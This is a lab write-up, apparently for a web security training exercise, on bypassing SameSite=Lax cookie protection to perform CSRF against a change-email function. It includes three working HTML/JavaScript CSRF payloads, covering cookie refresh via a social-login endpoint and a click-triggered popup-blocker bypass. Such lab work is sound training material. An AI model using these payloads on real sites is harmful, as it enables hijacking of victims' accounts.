

# SameSite Lax bypass via cookie refresh
# Objective
This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter`

# Solution
## Analysis
Website has `Change email` functionality which is not protected by `CSRF` token. There is no `SameSite` option specified - Chrome enforces `Lax` by default.

||
|:--:| 
| *OAuth login* |
||
| *Cookie configuration - no SameSite option specified* |
||
| *Test of change email functionality - CSRF token is not preset* |

## Exploitation
### CSRF Expoit
If victims executes the following payload within 2 minutes after logging in, the `Change email` request will be send correctly. Only within first 2 minutes after login cookies are included in request even though this is a cross-site POST request - `Lax` for 2 minutes is not enforced by browser.

```html
<script>
    history.pushState('', '', '/')
</script>
<form action="https://<id>.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test@test.test" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

### SameSite restrictions bypass
The 2 minutes exploitation widow can be bypassed by using endpoint `/social-login` - every time a user sends request to this endpoint, user refreshes his cookies. Following payload opens `/social-login` (to refresh cookies and start 2 minutes window) in new tab and after delay sends `Change email` request.

```html
<form method="POST" action="https://<id>.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://<id>.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

Payload is blocked by `Popup Blocker`.

||
|:--:| 
| *Blocked payload* |

### Popup blocker bypass
`Popup Blocker` can by bypassed via munual user interaction - manual user interaction will not trigger `Popup Blocker`.

||
|:--:| 
| *Exploit server configuration* |
||
| *1 - Exploit is triggered* |
||
| *2 - Request to social-login to refresh cookies* |
||
| *3 - Request to change email and then redirection to user account info* |

Exploit server configuration:
```html
<form method="POST" action="https://<id>.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@test.test">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://<id>.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```


